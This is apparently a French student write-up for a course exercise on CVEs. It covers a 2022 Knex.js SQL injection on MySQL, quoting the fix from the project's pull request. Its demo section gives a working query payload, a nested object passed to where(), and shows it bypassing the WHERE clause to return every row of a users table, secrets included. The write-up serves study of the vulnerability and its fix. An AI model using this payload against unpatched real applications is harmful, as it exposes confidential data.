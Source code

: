 # TP-CVE
# William - M2I M2 IASI

## 1 - Trouvez une CVE sortie en 2022 (score ≥ 7) 🔎
Le package Knex.JS présente une vulnérabilité limité d’injection SQL pouvant être exploitée pour ignorer la clause WHERE d’une requête SQL.
Cette vulnérabilité fonctionne seulement sur des bases de données MySQL et a été corrigée dans la version 2.4.0. Elle affecte des milliers de packages NodeJS utilisant Knex pour construire des requêtes SQL qui n'excluent pas les paramètres ayant pour type Object et Array.

https://github.com/advisories/GHSA-4jv9-3563-23j3

![](https://i.imgur.com/KlWHWpf.png)

## 2 - Trouvez sur github (ou ailleurs) le fix (commit) de la CVE et expliquez ce fix 🔨

https://github.com/knex/knex/pull/5417

```
whereBasic(statement) {
     assert(
       !isPlainObjectOrArray(statement.value),
       'The values in where clause must not be object or array.'
     );

     return super.whereBasic(statement);
   }

   whereRaw(statement) {
     assert(
       isEmpty(statement.value.bindings) ||
         !Object.values(statement.value.bindings).some(isPlainObjectOrArray),
       'The values in where clause must not be object or array.'
     );

     return super.whereRaw(statement);
   }
```

Le fix bloque tous les paramètres insérés dans la clause `WHERE` d’une requête qui sont de type `Array` ou `Object`, en utilisant les packages [loadash](https://www.npmjs.com/package/lodash) et [assert](https://www.npmjs.com/package/assert), permettant ainsi d’éviter une injection dans les paramètres.

## 3 – Proposez une démo d’exploitation de la CVE  🖥️
Prenons une table `users` ayant pour colonnes: `id`, `name` et `secret` avec deux utilisateurs: "admin" et "guest".

| id | name  | secret             |
| -- |-------|--------------------|
| 1  | admin | super confidentiel |
| 2  | guest | salut              |

```
knex('users')
    .select()
    .where({ secret: { "name": "admin" } })
    .then(res => console.log(res))
```
En exécutant le code ci-dessus, Knex va générer la requête SQL suivante: ```select * from `users` where `secret` = `name` = 'admin'```.

Avec cette syntaxe, MySQL va ignorer la clause `WHERE` et exécuter la requête suivante: ```select * from `users` ``` et donc retourner toutes les lignes de la table `users`:

```
[
  RowDataPacket { id: 1, name: 'admin', secret: 'super confidentiel' },
  RowDataPacket { id: 2, name: 'guest', secret: 'salut' }
]
```

Le code utilisé pour générer la base de données et reproduire la CVE se trouve dans le fichier [index.js](./index.js).

![](https://i.imgur.com/3q3wxrb.png)